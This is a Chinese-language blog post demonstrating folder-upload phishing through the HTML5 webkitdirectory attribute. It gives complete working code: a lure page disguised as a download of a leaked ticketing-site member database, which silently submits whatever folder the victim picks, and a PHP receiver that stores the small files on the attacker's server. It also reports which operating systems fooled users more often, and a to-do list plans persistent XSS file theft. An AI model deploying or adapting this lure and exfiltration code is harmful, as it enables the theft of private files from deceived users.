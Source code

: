 ```yaml
---
layout: post
title: HTML5 Upload Folder With Webkitdirectory - Phishing
---
```

#### Webkitdirectory

早在 12 年 Alan Layt 便写了这篇关于 HTML5 中上传文件夹新特性的文章（[http://sapphion.com/2011/11/21/html5-folder-upload-with-webkitdirectory/](http://sapphion.com/2011/11/21/html5-folder-upload-with-webkitdirectory/)），之后阿里做了个简单的 Demo 页面来说明这个特性配合 ClickJacking 是可以达到某种钓鱼效果的（[https://security.alibaba.com/blog/blog.htm?spm=0.0.0.0.IYip0H&id=3](https://security.alibaba.com/blog/blog.htm?spm=0.0.0.0.IYip0H&id=3)），基于前面两篇文章这里做了简单的 Demo 分享一下。

#### Phishing

在支持 HTML5 的浏览其中嵌入：

    <input type="file" name="test" id="file-upload" multiple webkitdirectory="">
    
此时文件夹变得可选择，攻击者可以实现使用 webkitdirectory 特性诱导用户点击下载选择文件夹，其背后实现的是将文件夹上传到服务端，之后我写了一个简单的 Demo 来进行测试，流程大致为：

1. 编写前端钓鱼下载页面
2. 诱导用户点击选择文件夹
3. 过滤出用户文件夹的指定文件
4. 将符合条件的文件上传至远程服务器

这里对目标文件夹内的文件格式进行过滤，防止在容量过大的情况，请求过久发现疑点。

#### Demo

phishing.html

    <html>
    <head>
    <title>damaiwang_1500w_database.rar_免费高速下载</title>
    <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
    <style>
    #download {
        color: #FFF;
        background: url(http://s1.pan.bdstatic.com/yun-static/common-cdn/images/btn_sprit.gif?t=1438054273762) no-repeat 0 0;
        display: inline-block;
        _width: 35px;
        white-space: nowrap;
        outline: 0;
        text-decoration: none;
        background: url(http://s1.pan.bdstatic.com/yun-static/common-cdn/images/btn_sprit.gif?t=1438054273762) no-repeat 0 -601px;
        text-align: center;
        padding-left: 25px;
        padding: 5px;
        font-size: 15px;
        position: relative;
        border-radius: 2px;
    }

    #download:hover {
        color: #eee;
    }
    </style>
    <script src="http://lib.sinaapp.com/js/jquery/1.9.1/jquery-1.9.1.min.js"></script>
    </head>
    <body>
    <p>大麦票务网站疑似会员数据泄露总量达到上百万</p>
    ----------------------
    <br><br>
    <form id="f1" action="_phishing.php" name="uploadtest" enctype="multipart/form-data" method="post">
    <label for="file-upload" class="ui icon button">
          <a id="download"><b>下载压缩包(233M)</b></a>
    </label>
        <input type="file" name="file-upload[]" id="file-upload" multiple webkitdirectory="" style="display:none" onchange="document.uploadtest.submit()">
        <input type="submit" value="Download" style="display:none"/>
        <script>
          var uploader = document.createElement('input');
          if (! ('webkitdirectory' in uploader)) {
            $('body').html('<p>当前浏览器不支持!</p>');
          }
        </script>
    </form>
    </body>
    </html>
    
_phishing.php

    <?php
    // author: evi1m0
    $content = $_GET['ps_res'];
    $fp = fopen("phishing.html", 'a');
    if ($fp) {
        fwrite($fp, $content);
    }
    echo $content;
    fclose($fp);

    // upload
    if($_FILES['file-upload']){
        $uploads = UpFilesTOObj($_FILES['file-upload']);
        $fileUploader=new FileUploader($uploads);
    }

    class FileUploader{
        public function __construct($uploads,$uploadDir='uploads/'){
            foreach($uploads as $current)
            {
                $this->uploadFile=$uploadDir.$current->name.".".get_file_extension($current->name);
                if($this->upload($current,$this->uploadFile)){
                    //echo "Successfully uploaded ".$current->name."\n";
                }
            }
            echo 'Download failed :(';
        }

        public function upload($current,$uploadFile){
            if(move_uploaded_file($current->tmp_name,$uploadFile)){
            return true;
            }
        }
    }

    function UpFilesTOObj($fileArr){
        foreach($fileArr['name'] as $keyee => $info)
        {
            $sizes = $uploads[$keyee]->type=$fileArr['size'][$keyee];
            if ($sizes < 250000) {
                    $uploads[$keyee]->name=$fileArr['name'][$keyee];
                    $uploads[$keyee]->type=$fileArr['type'][$keyee];
                    $uploads[$keyee]->tmp_name=$fileArr['tmp_name'][$keyee];
                    $uploads[$keyee]->error=$fileArr['error'][$keyee];
            }
        }
        return $uploads;
    }    function get_file_extension($file_name)
    {
      return substr(strrchr($file_name,'.'),1);
    }
    
#### Case

- Windows & Unix

在测试过程中， 我们发现类 Unix 系统中招率高于 Windows （原因如图），Windows 上提示浏览文件夹与平时下载保存不同，而 Mac OS 下基本和平时下载文件操作 UI 一样，由于习惯问题直接敲下键盘回车“下载”文件的人不在少数。

![http://ww1.sinaimg.cn/large/c334041bgw1exrfp65k8zj215e0xan2l.jpg](http://ww1.sinaimg.cn/large/c334041bgw1exrfp65k8zj215e0xan2l.jpg)#### Todo

1. 前端分析处理出价值文件；
2. 图片视频的优化处理上传；
3. XSS 持久性获取文件资料；

#### End

- 我意识到上面代码有个大问题，这将使得受害者能够轻易的进入攻击者的服务器。
- ClickJacking / CSRF Worm 等前端攻击在实际渗透中可能会有着非常好的效果。
